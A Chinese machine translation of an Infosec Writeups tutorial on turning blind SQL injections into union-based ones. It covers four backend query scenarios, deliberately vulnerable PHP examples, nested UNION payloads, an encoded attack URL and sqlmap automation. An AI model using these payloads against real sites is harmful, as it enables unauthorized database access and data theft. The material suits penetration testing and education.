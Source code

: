 # 治愈盲目注射

> 原文：<https://infosecwriteups.com/healing-blind-injections-df30b9e0e06f?source=collection_archive---------1----------------------->

如果我告诉您有一种方法可以治愈盲目的 SQL 注入，并将它们转变为健康的基于联合的注入，会怎么样？

![](img/dfdef988bda94827c1da8708de92a7d0.png)

当易受攻击的查询返回数据时，您是否遇到过盲目的 SQL 注入？

*……再读一遍问题……*

你明白了吗？
我来给你介绍一下**隐藏工会的 SQL 注入**。
想象一下这个场景，在一个 web 应用程序上有一个搜索功能，URL 是这样的:`http://sub.domain.tld/search?query=abcd`通过访问这个 URL，您将看到所有名称中带有字母`abcd`的产品。
经过一点测试，你意识到`query`这个参数容易受到 SQL 注入的攻击。
你给`SQLMap`一个 URL，它确认了 SQLi，但是一个盲注入…
现在让我再问你一个关键问题，易受攻击的查询*返回数据*但是注入是盲注入，这怎么可能呢？？？

*…在你继续之前考虑几分钟……*

**第一部分:场景**
好了，我们来分解一下。
根据我的经验，有四种可能的情况:
(易受攻击的查询以**粗体**显示)

**场景 1:** 易受攻击的查询是父查询的子查询，父查询负责返回数据。

```
SELECT 
  * 
FROM 
  customers 
WHERE 
  id IN (
    **SELECT 
      DISTINCT customer_id 
    FROM 
      orders 
    WHERE 
      cost > 200**
  );//source https://careerkarma.com/blog/sql-subquery/
```

**问题:**向易受攻击的查询添加联合有效负载不会影响返回的数据，因为您修改的是`WHERE`部分，而不是返回数据的实际查询。
**解决方案:**您需要知道正在执行的实际查询，以便相应地调整您的有效负载，这意味着正确地结束括号和/或在需要时添加正确的关键字。

**场景二。易受攻击的查询是一个大而复杂的查询，可能包含别名或变量声明。**

```
SELECT 
  s1.user_id, 
  (
    CASE WHEN s2.user_id IS NOT NULL AND s2.sub_type = '**INJECTION**' THEN 1 ELSE 0 END
  ) AS overlap 
FROM 
  subscriptions AS s1 
  LEFT JOIN subscriptions AS s2 ON s1.user_id != s2.user_id 
  AND s1.start_date <= s2.end_date 
  AND s1.end_date >= s2.start_date 
GROUP BY 
  s1.user_id//source https://codingsight.com/how-to-write-complex-sql-queries/
```

**问题:**在这个场景中，当您在注入的有效负载之后注释原始查询的剩余部分时，您破坏了原始查询的开始部分，因为一些别名变成了`undefined`。
**解决方案:**要解决这个问题，我们需要知道原始查询，在我们的有效载荷的开头放置适当的括号、关键字和别名，以便原始查询的第一部分保持有效。

**场景三。**易受攻击的查询的结果正在第二个查询中使用，并且第二个查询返回数据。

```
<?php// retrieve product ID based on product name
$query1 = "**SELECT 
             id 
           FROM 
             products 
           WHERE 
             name = '$name'**";$result1 = odbc_exec($conn, $query1);// retrieve product's comments based on product ID
$query2 = "**SELECT 
             comments 
           FROM 
             products 
           WHERE 
             id = '$result1'**";$result1 = odbc_exec($conn, $query2);?>//source https://www.php.net/manual/en/security.database.sql-injection.php
```

**问题:**您可以向第一个查询添加一个联合有效负载，但是它不会影响返回的数据，因为第一个查询不负责返回数据，而第二个查询负责。
**解决方案:**将这些盲注入转变为基于联合的注入是有条件的，第二个查询也需要是易受攻击的，并且它的输入没有得到净化。如果是这样，您需要使第一个查询不返回数据，接下来，追加一个联合查询，返回您想要在第二个查询中*注入的有效负载。复杂？举个例子怎么样:
有效负载(我们注入到第一个查询中的内容):*

```
' AND 1 = 2 UNION SELECT "*injection*" -- -
```

*注入*的值是我们想要在*第二个查询*中注入的值:

```
' AND 1=2 UNION SELECT ...
```

最终有效负载(在插入第二个查询的*注入*值之后):

```
' AND 1 = 2 UNION SELECT "***' AND 1=2 UNION SELECT ...***" -- -
                          \________________________/
                                      ||
                                      \/
                               the payload that
                                get's injected
                             into the second query
\________________________________________________________/
                            ||
                            \/
 the actual query we inject into the vulnerable parameter
```

注入后的第一个查询:

```
SELECT               --\
  id                   |
FROM                   |----> first query
  products             |
WHERE                  |
  name = 'abcd**'** --/ **AND 1 = 2** --\ **UNION** |----> injected payload **SELECT** | **"*' AND 1=2 UNION SELECT ... -- -*" -- -**' --/
```

注入后的第二个查询:

```
SELECT            --\
  comments          |
FROM                |----> second query
  products          |
WHERE               |
  id = '**'** --/ **AND 1 = 2** --\ **UNION** |----> injected payload **SELECT ... -- -**'  --/
```

很酷，不是吗？😎😎

场景 4。易受攻击的参数正在几个独立的查询中使用。

```
<?php//retriveing product details based on product ID
$query1 = "**SELECT 
             name, 
             inserted, 
             size 
           FROM 
             products 
           WHERE 
             id = '$id'**";$result1 = odbc_exec($conn, $query1);//retriveing product's comments based on product ID, independently
$query2 = "**SELECT 
             comments 
           FROM 
             products 
           WHERE 
             id = '$id'**";$result2 = odbc_exec($conn, $query2);?>//source https://www.php.net/manual/en/security.database.sql-injection.php
```

**问题:**虽然您可以在其中一个查询中附加一个联合查询并保持有效，但它可能会破坏另一个查询，服务器会返回 500 错误，而不是您想要的数据。
**解决方法:**这确实要看情况，但第一步还是一如既往的了解原查询。通常，在第一步，这些类型的注入只是基于时间的，因为延迟有效负载被插入到多个查询中，并且您的延迟时间被乘以一个数字。
这个事实在提取数据时混淆了`SQLMap`,打乱了输出。这意味着`SQLMap`错误地识别了查询输出的字符。在一次测试中，我执行了十次查询，手动地构建了正确的输出。我比较了不同的输出，确定了重复的字符(很可能是正确的)，并猜测了其中的一些。

**PRO TIP**
这些*隐藏的基于联合的注入*之一存在的标志是:
当你可以使用`ORDER BY`技术来确认漏洞时，却以一个布尔或基于时间的结束。
那就当`SQLMap`说:
`'ORDER BY' technique appeares to be usable.`
`vulnerable query seems to have N columns.`
但是到最后就糊涂了，报了个瞎注:)

所以…明白了吗？
现在您可能已经意识到，要将基于布尔或基于时间的注入转换为基于联合的注入(当然，如果查询返回数据的话)，我们需要知道正在后端执行的查询。
这就是为什么当我遇到盲注的时候，
我做的第一件事就是提取正在执行的查询，而不是像新手一样转储`users`表。😒

但是怎么做呢？
几乎所有广泛使用的 DBMSes 都有一个默认的表，其中存储着当前正在执行的查询。要找到该表，您需要阅读目标 DBMS 的文档。

**PRO 提示**
`SQLMap`的`--statement`标志会自动为您完成这项工作，独立于后端 DBMS。

但是我仍然鼓励你阅读文档，因为在某些情况下你需要手动完成，而`SQLMap`帮不上忙。

**第二部分:自动化** 如何使用`SQLMap`实现这些注射的自动化？

上述所有场景中的普遍问题是，我们需要安全地关闭原始查询，然后向其追加一个联合查询，这是`SQLMap`无法自动完成的。
所以我们需要手动执行，我们首先将用于关闭原始查询的合适负载添加到易受攻击参数的值中，然后使用星号( ***** )告诉`SQLMap`从哪里开始注入。这种方式`SQLMap`将利用正常的基于联合的注入。让我给你举个例子:

考虑第三种情况。
我们假设 DMBS 是`mysql`，第一个和第二个查询只返回一列。如果我们想要提取数据库的版本，这将是我们的有效负载:

```
' AND 1=2 UNION SELECT " **' AND 1=2 UNION SELECT @@version -- -**" -- -
```

所以 URL 应该是这样的:

```
http://sub.domain.tld/search?query=abcd'+AND+1=2+UNION+SELECT+"+**'AND 1=2+UNION+SELECT+@@version**+--+-"+--+-
```

对于自动化，这将是`SQLMap`的输入:

```
http://sub.domain.tld/search?query=abcd'AND 1=2 UNION SELECT "*****"-- -
```

注意标记`SQLMap`注入点的星号

有帮助吗？
我不要求你给我买杯咖啡，
教我点什么…
不和:`**REDN#9702**`

Infosec Writeups 团队刚刚完成了我们的第一次虚拟网络安全会议和网络活动。我们有 16 位出色的演讲者，他们主持了非常有价值和鼓舞人心的会议。要查看演讲者和主题列表，请点击此处。

[](https://iwcon.live/) [## IWCon2022 — Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)